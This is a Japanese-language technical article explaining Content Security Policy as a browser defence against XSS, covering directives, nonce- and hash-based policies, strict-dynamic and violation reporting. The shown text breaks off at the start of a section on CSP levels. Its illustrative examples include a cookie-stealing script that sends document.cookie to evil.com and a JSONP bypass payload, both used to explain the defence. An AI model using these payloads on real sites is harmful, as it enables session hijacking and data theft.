





# Content Security Policy（CSP）— Webブラウザにおけるスクリプト実行制御の設計と実践

## 1. 背景と動機

### 1.1 Webセキュリティの根本的課題：XSS

Webアプリケーションにおける最も深刻かつ根絶が困難な脆弱性の一つが、クロスサイトスクリプティング（XSS）である。XSSは、攻撃者がWebアプリケーションに悪意のあるスクリプトを注入し、他のユーザーのブラウザ上でそのスクリプトを実行させる攻撃手法である。

XSSの本質的な問題は、ブラウザが「信頼できるスクリプト」と「攻撃者が注入したスクリプト」を区別できないことにある。HTMLドキュメント内に `<script>` タグが存在すれば、それがサーバーが意図的に含めたものであっても、攻撃者がフォーム入力やURLパラメータを通じて注入したものであっても、ブラウザは等しく実行してしまう。

```
攻撃の流れ（Reflected XSS の例）:

1. 攻撃者が悪意のあるURLを作成
   https://example.com/search?q=<script>document.location='https://evil.com/?c='+document.cookie</script>

2. 被害者がURLにアクセス

3. サーバーが検索クエリをそのままHTMLに埋め込んで返却
   <p>検索結果: <script>document.location='https://evil.com/?c='+document.cookie</script></p>

4. ブラウザがスクリプトを実行 → Cookieが攻撃者のサーバーに送信される
```

XSSによって引き起こされる被害は深刻である。セッションハイジャック、フィッシング、キーロギング、機密データの窃取、ユーザーに成り代わっての操作（CSRF）など、多岐にわたる。OWASPのTop 10においてもXSSは常に上位にランクインし続けている。

### 1.2 同一オリジンポリシー（Same-Origin Policy）の限界

ブラウザには、異なるオリジン間のリソースアクセスを制限する「同一オリジンポリシー」（SOP）が存在する。オリジンとは、スキーム（プロトコル）、ホスト、ポート番号の三つ組で定義される。

```
https://example.com:443/path/page.html
|_____|  |_________| |_|
scheme    host       port
\_________________________/
        origin
```

同一オリジンポリシーにより、`https://evil.com` のスクリプトが `https://example.com` のDOMやCookieに直接アクセスすることは防がれる。しかし、SOPは「どのオリジンからのアクセスを許可するか」を制御するものであり、「同一オリジン内でどのスクリプトの実行を許可するか」を制御するものではない。

ここにXSSの根本的な問題がある。攻撃者が注入したスクリプトは、被害者が閲覧しているページと同一オリジンで実行されるため、SOPでは防御できないのである。注入されたスクリプトはページのDOMを自由に操作でき、Cookieを読み取り、APIリクエストを送信できる。すべてが「正規のスクリプト」と同じ権限で実行される。

### 1.3 入力サニタイズだけでは不十分な理由

XSS対策として最初に思いつくのは、サーバーサイドでの入力サニタイズ（エスケープ処理）である。HTMLの特殊文字（`<`, `>`, `"`, `'`, `&`）をエンティティに変換することで、注入されたスクリプトが実行されるのを防ぐ。

しかし、この防御策には構造的な弱点がある。

**網羅性の問題**: アプリケーションのすべての出力箇所で正確にエスケープ処理を行う必要がある。HTML本文、属性値、JavaScript文字列、CSSコンテキスト、URLコンテキストなど、コンテキストごとに異なるエスケープ方法が必要であり、一箇所でも漏れがあればそこが脆弱性となる。

**既存コードの問題**: レガシーコードやサードパーティライブラリにエスケープ漏れが存在する可能性を完全に排除することは困難である。

**DOMベースXSS**: クライアントサイドJavaScriptがURLフラグメントやpostMessageの内容を `innerHTML` に設定するような場合、サーバーサイドのサニタイズでは防御できない。

こうした限界を踏まえ、「サーバーサイドの入力サニタイズに加えて、ブラウザ側にも防御層を設ける」というアプローチが求められるようになった。これが多層防御（Defense in Depth）の考え方であり、Content Security Policy（CSP）が生まれた背景である。

### 1.4 CSPの誕生

Content Security Policyの概念は、2004年にMozillaのRobert Hansenによって最初に提案された。Webページが許可するコンテンツのソースをブラウザに明示的に宣言し、それ以外のソースからのコンテンツ読み込みやインラインスクリプトの実行をブラウザに拒否させるというアイデアである。

2012年にW3CからContent Security Policy Level 1が勧告候補として公開され、2014年にはLevel 2が策定された。現在はLevel 3が策定中であり、Working Draftとして継続的に更新されている。

CSPの根本的な設計思想は明快である。「信頼できるコンテンツのソースをサーバーが明示的にブラウザに伝え、それ以外のすべてを拒否する」——ホワイトリスト方式のセキュリティモデルをHTTPヘッダーで実現するものである。

## 2. CSPの基本メカニズム

### 2.1 CSPの配信方法

CSPは主にHTTPレスポンスヘッダーを通じてブラウザに伝達される。

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; script-src 'self' https://cdn.example.com
```

`Content-Security-Policy` ヘッダーの値として、セミコロンで区切られた一連のディレクティブ（指令）を指定する。各ディレクティブは、特定のリソースタイプに対して許可するソースのリストを宣言する。

HTMLの `<meta>` タグを使って配信することも可能だが、この方法にはいくつかの制約がある。

```html
<meta http-equiv="Content-Security-Policy"
      content="default-src 'self'; script-src 'self' https://cdn.example.com">
```

`<meta>` タグによる配信では `frame-ancestors`、`report-uri`、`report-to`、`sandbox` ディレクティブが使用できない。また、`<meta>` タグはHTMLドキュメントの `<head>` 内でできるだけ早い位置に配置する必要がある。位置が遅いと、`<meta>` タグが解析される前に読み込まれたリソースにはCSPが適用されない。したがって、実運用ではHTTPヘッダーでの配信が推奨される。

### 2.2 ポリシーの評価モデル

ブラウザがCSPヘッダーを受け取ると、そのポリシーをページ全体に適用する。リソースの読み込みやスクリプトの実行が発生するたびに、ブラウザは該当するディレクティブを参照し、そのリソースのソースが許可リストに含まれているかを判定する。



重要な点として、CSPは**加法的**（additive）ではなく**制限的**（restrictive）なモデルである。複数のCSPヘッダーが存在する場合、各ポリシーはすべて独立して評価され、リソースの読み込みにはすべてのポリシーを満たす必要がある。つまり、複数のCSPヘッダーを送信すると、ポリシーはより厳しくなる（緩くはならない）。

### 2.3 インラインスクリプトの問題

CSPの最も影響力のある（そして最も議論を呼ぶ）特徴は、デフォルトでインラインスクリプトの実行を禁止することである。

```html
<!-- CSPが有効な場合、以下はすべてブロックされる -->

<!-- インラインスクリプト -->
<script>alert('blocked')</script>

<!-- イベントハンドラ -->
<button onclick="handleClick()">Click</button>

<!-- javascript: URL -->
<a href="javascript:void(0)">Link</a>
```

なぜインラインスクリプトを禁止するのか。XSSの本質は「攻撃者がページ内にインラインスクリプトを注入すること」であるため、インラインスクリプト全体を禁止すれば、注入されたスクリプトの実行を防止できるからである。

しかし、現実のWebアプリケーションの多くはインラインスクリプトに大きく依存している。すべてのインラインスクリプトを外部ファイルに移行するのは、大規模アプリケーションでは非常に困難である。この問題を解決するために、nonceベースCSPやhashベースCSPが導入された（後述）。

## 3. CSPディレクティブの詳細

### 3.1 フェッチディレクティブ（Fetch Directives）

フェッチディレクティブは、特定のリソースタイプの読み込み元を制御する。CSPの中核をなすディレクティブ群である。

#### default-src

すべてのフェッチディレクティブのフォールバック値として機能する。明示的に指定されていないリソースタイプに対して、このディレクティブの値が適用される。

```http
Content-Security-Policy: default-src 'self'
```

上記の設定は、「すべてのリソースは同一オリジンからのみ読み込みを許可する」ことを意味する。個別のディレクティブで上書きしない限り、スクリプト、スタイルシート、画像、フォント、メディアなどすべてに適用される。

`default-src` は最も基本的なディレクティブであるが、注意すべき点がある。`default-src` のフォールバックは一部のディレクティブにのみ適用される。`base-uri`、`form-action`、`frame-ancestors`、`navigate-to` などのディレクティブには `default-src` のフォールバックは適用されない。

#### script-src

JavaScriptの読み込みと実行を制御する、CSPにおいて最も重要なディレクティブである。

```http
Content-Security-Policy: script-src 'self' https://cdn.example.com
```

`script-src` には以下のソース表現を指定できる。

| ソース表現 | 意味 |
|---|---|
| `'self'` | 同一オリジンからのスクリプトを許可 |
| `https://cdn.example.com` | 指定したオリジンからのスクリプトを許可 |
| `'unsafe-inline'` | インラインスクリプトを許可（非推奨） |
| `'unsafe-eval'` | `eval()` や `Function()` の使用を許可（非推奨） |
| `'nonce-{base64}'` | 指定したnonceを持つスクリプトを許可 |
| `'sha256-{base64}'` | 指定したハッシュに一致するスクリプトを許可 |
| `'strict-dynamic'` | 信頼されたスクリプトから動的に生成されたスクリプトを許可 |
| `'wasm-unsafe-eval'` | WebAssemblyの実行を許可 |

CSP Level 3では、`script-src` をさらに細分化する `script-src-elem`（`<script>` 要素用）と `script-src-attr`（イベントハンドラ属性用）が追加された。

#### style-src

CSSスタイルシートの読み込みとインラインスタイルの使用を制御する。

```http
Content-Security-Policy: style-src 'self' 'unsafe-inline'
```

実務上、多くのCSSフレームワーク（特にCSS-in-JSライブラリ）はインラインスタイルを動的に生成するため、`style-src` に `'unsafe-inline'` を指定する必要があるケースが多い。ただし、nonceやhashを使った制御も可能である。

CSP Level 3では `style-src-elem` と `style-src-attr` が追加された。

#### img-src

画像リソースの読み込み元を制御する。

```http
Content-Security-Policy: img-src 'self' data: https://images.example.com
```

`data:` スキームを許可する場合は、Base64エンコードされたインライン画像が使用可能になる。ただし、`data:` の許可はセキュリティリスクを伴うため、本当に必要な場合のみ指定すべきである。

#### connect-src

`fetch()`、`XMLHttpRequest`、`WebSocket`、`EventSource` などによるネットワーク接続先を制御する。

```http
Content-Security-Policy: connect-src 'self' https://api.example.com wss://ws.example.com
```

APIバックエンドやWebSocketサーバーとの通信を制御するために使用される。Single Page Application（SPA）においては特に重要なディレクティブである。

#### font-src

Webフォントの読み込み元を制御する。

```http
Content-Security-Policy: font-src 'self' https://fonts.gstatic.com
```

Google FontsなどのCDNからフォントを読み込む場合に明示的に許可する必要がある。

#### media-src

`<audio>` と `<video>` 要素のメディアリソースの読み込み元を制御する。

```http
Content-Security-Policy: media-src 'self' https://media.example.com
```

#### object-src

`<object>`、`<embed>`、`<applet>` 要素のプラグインコンテンツの読み込み元を制御する。Flash等のプラグインはXSSの温床であったため、現代のWebアプリケーションでは `object-src 'none'` と設定してプラグインを完全に禁止するのがベストプラクティスである。

```http
Content-Security-Policy: object-src 'none'
```

#### child-src / frame-src / worker-src

`child-src` は `<iframe>` とWeb Workerの読み込み元を制御する。CSP Level 2では `frame-src` が非推奨となり `child-src` に統合されたが、CSP Level 3で `frame-src` が復活し、`worker-src` が新たに追加された。

```http
Content-Security-Policy: frame-src https://embed.example.com; worker-src 'self'
```

これにより、iframeとWorkerの読み込み元を個別に制御できるようになった。

### 3.2 ドキュメントディレクティブ（Document Directives）

#### base-uri

`<base>` 要素に指定できるURLを制限する。`<base>` タグは相対URLの基準を変更するため、攻撃者が `<base>` タグを注入できればスクリプトの読み込み先を制御できてしまう。

```http
Content-Security-Policy: base-uri 'self'
```

または、 `<base>` タグを一切使用しない場合は `'none'` を指定する。

```http
Content-Security-Policy: base-uri 'none'
```

`base-uri` は `default-src` にフォールバックしないため、明示的に指定する必要がある。

#### sandbox

ページに対してサンドボックス制限を適用する。`<iframe>` の `sandbox` 属性と同等の制限をページ全体に適用する。

```http
Content-Security-Policy: sandbox allow-scripts allow-same-origin
```

### 3.3 ナビゲーションディレクティブ（Navigation Directives）

#### frame-ancestors

現在のページを `<iframe>`、`<frame>`、`<object>`、`<embed>` で埋め込むことを許可するオリジンを指定する。クリックジャッキング防御の主要なメカニズムであり、`X-Frame-Options` ヘッダーの後継として位置づけられている。

```http
Content-Security-Policy: frame-ancestors 'self' https://trusted-parent.com
```

自サイトのiframeでのみ埋め込みを許可する場合は `'self'`、一切の埋め込みを禁止する場合は `'none'` を指定する。

```http
Content-Security-Policy: frame-ancestors 'none'
```

`frame-ancestors` は `<meta>` タグでは指定できない。HTTPヘッダーでのみ有効である。

#### form-action

`<form>` 要素の送信先URLを制限する。

```http
Content-Security-Policy: form-action 'self' https://payment.example.com
```

攻撃者がHTMLインジェクションでフォームの `action` 属性を改ざんし、フィッシングサイトにデータを送信させる攻撃を防ぐために有効である。なお、`form-action` も `default-src` のフォールバック対象外であるため、明示的な設定が必要である。

### 3.4 ディレクティブの一覧まとめ

```
+---------------------------+--------------------------------------------------+
| ディレクティブ             | 制御対象                                         |
+---------------------------+--------------------------------------------------+
| default-src               | 他のフェッチディレクティブのフォールバック           |
| script-src                | JavaScript                                       |
| style-src                 | CSS                                              |
| img-src                   | 画像                                             |
| font-src                  | フォント                                          |
| connect-src               | fetch, XHR, WebSocket 等                         |
| media-src                 | audio, video                                     |
| object-src                | object, embed, applet                            |
| frame-src                 | iframe                                           |
| worker-src                | Web Worker, Service Worker                       |
| child-src                 | iframe + Worker (Level 2)                        |
| base-uri                  | <base> 要素のURL                                 |
| form-action               | <form> の送信先                                   |
| frame-ancestors           | ページの埋め込みを許可するオリジン                  |
| sandbox                   | サンドボックス制限                                 |
| report-uri / report-to    | 違反レポートの送信先                               |
+---------------------------+--------------------------------------------------+
```

## 4. NonceベースCSPとHashベースCSP

### 4.1 ホワイトリスト方式の限界

CSPの初期の設計では、信頼するドメインをホワイトリストとして列挙する方式が主流であった。しかし、2016年にGoogleの研究チームが発表した論文「CSP Is Dead, Long Live CSP!」において、ホワイトリスト方式の深刻な限界が明らかにされた。

この研究では、約10億のホスト名にまたがる約1000億ページの検索エンジンコーパスを分析し、168万以上のホストでデプロイされたCSPの26,011のユニークなポリシーを調査した。その結論は衝撃的であった。

- スクリプトの読み込みを制限するホワイトリストの**75.81%**が、攻撃者にCSPをバイパスされる安全でないエンドポイントを含んでいた
- スクリプト実行を制限しようとするポリシーの**94.68%**が実質的に無効であった
- CSPを使用するホストの**99.34%**が、XSSに対して何の防御効果もないポリシーを使用していた

なぜホワイトリスト方式はこれほど脆弱なのか。主な理由は以下の通りである。

**JSONP エンドポイントの悪用**: 多くのCDNやサービスはJSONPエンドポイントを提供しており、ホワイトリストに含まれたドメイン上のJSONPエンドポイントを利用して任意のJavaScriptコードを実行できてしまう。

```
// ホワイトリストに含まれたドメインのJSONPエンドポイントを悪用
<script src="https://whitelisted-cdn.com/jsonp?callback=alert(document.cookie)//"></script>
```

**オープンリダイレクトの悪用**: ホワイトリストに含まれたドメインにオープンリダイレクトの脆弱性があれば、攻撃者が制御するドメインからスクリプトを読み込ませることができる。

**Angular等のライブラリの悪用**: ホワイトリストに含まれたCDN上にAngularJSなどのテンプレートエンジンが存在すれば、CSPのバイパスが可能になる場合がある。

この研究の結論として、ドメインベースのホワイトリストではなく、nonceやhashに基づくCSPの使用が強く推奨されるようになった。

### 4.2 NonceベースCSP

NonceベースCSPは、リクエストごとにランダムな一回限りの値（nonce）を生成し、CSPヘッダーとHTMLの `<script>` タグの両方に同じ値を埋め込む方式である。

```http
Content-Security-Policy: script-src 'nonce-dGhpcyBpcyBhIHNlY3VyZSBub25jZQ=='
```

```html
<!-- このスクリプトは実行される（nonceが一致するため） -->
<script nonce="dGhpcyBpcyBhIHNlY3VyZSBub25jZQ==">
  console.log('Trusted script');
</script>

<!-- このスクリプトはブロックされる（nonceがないため） -->
<script>
  console.log('Blocked: no nonce');
</script>

<!-- 攻撃者が注入したスクリプトもブロックされる -->
<script>
  document.location = 'https://evil.com/?c=' + document.cookie;
</script>
```

NonceベースCSPの仕組みを図示する。



nonceの生成に関して守るべきセキュリティ要件は以下の通りである。

- **暗号学的に安全な乱数生成器**（CSPRNG）を使用すること。予測可能な乱数は攻撃者にnonceを推測される可能性がある
- **リクエストごとに新しいnonceを生成すること**。同じnonceの再利用は厳禁である
- **最低16バイト（128ビット）以上のエントロピー**を確保すること
- **Base64エンコード**して使用すること

サーバーサイドでの実装例を示す。

```python
# Python (Flask) example
import secrets
import base64

@app.after_request
def add_csp_header(response):
    # Generate a cryptographically secure random nonce
    nonce = base64.b64encode(secrets.token_bytes(16)).decode('utf-8')
    # Store nonce in request context for template rendering
    response.headers['Content-Security-Policy'] = (
        f"script-src 'nonce-{nonce}' 'strict-dynamic'; "
        f"object-src 'none'; "
        f"base-uri 'none'"
    )
    return response
```

### 4.3 HashベースCSP

HashベースCSPは、インラインスクリプトのコンテンツのSHA-256（またはSHA-384、SHA-512）ハッシュをCSPヘッダーに列挙する方式である。

```html
<script>console.log('Hello, World!');</script>
```

このスクリプトのSHA-256ハッシュを計算する。

```bash
echo -n "console.log('Hello, World!');" | openssl dgst -sha256 -binary | openssl base64
# 出力: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx==
```

計算されたハッシュをCSPヘッダーに含める。

```http
Content-Security-Policy: script-src 'sha256-xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx=='
```

ブラウザはインラインスクリプトの内容のハッシュを計算し、CSPヘッダーに列挙されたハッシュ値と比較する。一致すれば実行を許可し、一致しなければブロックする。

HashベースCSPの利点は、サーバーサイドで動的にnonceを生成する必要がないため、**静的なHTMLページ**やCDN経由で配信されるコンテンツに適している点である。一方、スクリプトの内容を1バイトでも変更するとハッシュが変わるため、動的にスクリプトの内容が変化するアプリケーションには不向きである。

### 4.4 NonceとHashの使い分け

| 特性 | Nonce | Hash |
|---|---|---|
| 動的コンテンツ | 適している | 不向き |
| 静的コンテンツ | 使用可能 | 適している |
| サーバーサイド要件 | リクエストごとにnonce生成が必要 | 事前にハッシュを計算しておけばよい |
| CDN配信 | CDNでのnonce注入が必要（やや複雑） | CDN配信と相性が良い |
| スクリプト変更時の対応 | nonce属性を付与するだけ | ハッシュの再計算が必要 |
| 外部スクリプト | nonce属性で許可可能 | CSP Level 3で対応（`integrity` 属性） |

一般的な指針として、サーバーサイドでHTMLを動的に生成するアプリケーションにはnonceベースCSPを、静的なコンテンツを配信するサイトにはhashベースCSPを選択するのが適切である。

## 5. strict-dynamic

### 5.1 strict-dynamicの目的

`'strict-dynamic'` は CSP Level 3で導入されたソース表現であり、NonceベースCSPやHashベースCSPが抱える実用上の課題を解決するために設計された。

NonceベースCSPの問題点の一つは、信頼されたスクリプトが動的に別のスクリプトを読み込む場合の取り扱いである。例えば、Google Tag ManagerやWebpackのチャンクローディングなど、JavaScriptが実行時に `document.createElement('script')` で新たなスクリプト要素を作成するパターンは極めて一般的である。

```javascript
// Trusted script with nonce
const script = document.createElement('script');
script.src = 'https://cdn.example.com/analytics.js';
document.body.appendChild(script);
// ^ strict-dynamic がなければ、このスクリプトの読み込みもCSPでブロックされる
```

`'strict-dynamic'` を指定すると、nonceまたはhashによって明示的に信頼されたスクリプトが、プログラム的に生成した新たなスクリプト要素にも暗黙の信頼が伝搬される。つまり、「信頼されたスクリプトから生成されたスクリプトも信頼する」というモデルである。

### 5.2 strict-dynamicの動作

```http
Content-Security-Policy: script-src 'nonce-abc123' 'strict-dynamic'
```

この設定のもとでの動作は以下の通りである。



重要な点として、`'strict-dynamic'` を指定すると、以下のソース表現は**無視される**。

- `'self'`
- `'unsafe-inline'`
- ホストベースの許可リスト（例: `https://cdn.example.com`）
- スキームベースの許可リスト（例: `https:`、`http:`）

これは意図的な設計であり、nonceまたはhashによる明示的な信頼のみをセキュリティの基盤とし、ホワイトリスト方式を完全に無効化するためである。

### 5.3 後方互換性の確保

`'strict-dynamic'` を理解しないレガシーブラウザ（CSP Level 2以前）のために、フォールバックとしてホストベースの許可リストや `'unsafe-inline'` を併記するテクニックが推奨されている。

```http
Content-Security-Policy: script-src 'nonce-abc123' 'strict-dynamic' 'unsafe-inline' https:
```

CSP Level 3対応ブラウザでは、`'strict-dynamic'` が存在するため `'unsafe-inline'` と `https:` は無視される。CSP Level 2対応ブラウザでは、`'strict-dynamic'` を未知のトークンとして無視し、`'nonce-abc123'` によってnonce付きスクリプトのみを許可する（`'unsafe-inline'` はnonceが存在する場合に無視される）。CSP Level 1のみ対応ブラウザでは、`'unsafe-inline'` と `https:` が適用される（セキュリティは低いが、互換性を維持）。

この段階的なフォールバック戦略により、広範なブラウザ互換性を保ちながらモダンブラウザでは最大限のセキュリティを享受できる。

## 6. レポーティング

### 6.1 report-uri（CSP Level 1〜2）

`report-uri` ディレクティブは、CSP違反が発生した際にブラウザが違反レポートをJSON形式でPOSTする送信先URLを指定する。

```http
Content-Security-Policy: default-src 'self'; report-uri /csp-violation-report
```

ブラウザから送信される違反レポートのJSON形式は以下の通りである。

```json
{
  "csp-report": {
    "document-uri": "https://example.com/page",
    "referrer": "",
    "violated-directive": "script-src 'self'",
    "effective-directive": "script-src",
    "original-policy": "default-src 'self'; report-uri /csp-violation-report",
    "blocked-uri": "https://evil.com/malicious.js",
    "status-code": 200,
    "source-file": "https://example.com/page",
    "line-number": 42,
    "column-number": 15
  }
}
```

レポートの `Content-Type` は `application/csp-report` である。

### 6.2 report-to（CSP Level 3）

CSP Level 3では、`report-uri` に代わって `report-to` ディレクティブが推奨されている。`report-to` はReporting APIと統合されており、CSP違反に限らずネットワークエラーやDeprecation Warningなどを統一的に扱える。

```http
Reporting-Endpoints: csp-endpoint="https://report-collector.example.com/csp"
Content-Security-Policy: default-src 'self'; report-to csp-endpoint
```

`report-to` ではエンドポイント名を指定し、実際のURLは `Reporting-Endpoints` ヘッダー（または旧仕様の `Report-To` ヘッダー）で定義する。

移行期間中は、互換性のために `report-uri` と `report-to` の両方を指定することが推奨される。

```http
Reporting-Endpoints: csp-endpoint="https://report-collector.example.com/csp"
Content-Security-Policy: default-src 'self'; report-uri /csp-report; report-to csp-endpoint
```

`report-to` をサポートするブラウザは `report-to` を使用し、サポートしないブラウザは `report-uri` にフォールバックする。

### 6.3 Content-Security-Policy-Report-Only

CSPの導入において最も重要なHTTPヘッダーの一つが `Content-Security-Policy-Report-Only` である。このヘッダーは、CSPポリシーを**強制せずに**違反のみをレポートするモードを提供する。

```http
Content-Security-Policy-Report-Only: default-src 'self'; script-src 'self' 'nonce-abc123' 'strict-dynamic'; report-uri /csp-report
```

Report-Onlyモードでは、CSPに違反するリソースの読み込みやスクリプトの実行はブロックされないが、違反レポートは送信される。これにより、本番環境のトラフィックに対してCSPポリシーの影響を事前に評価できる。



## 7. CSP Level 1, 2, 3 の進化

### 7.1 CSP Level 1（2012年）

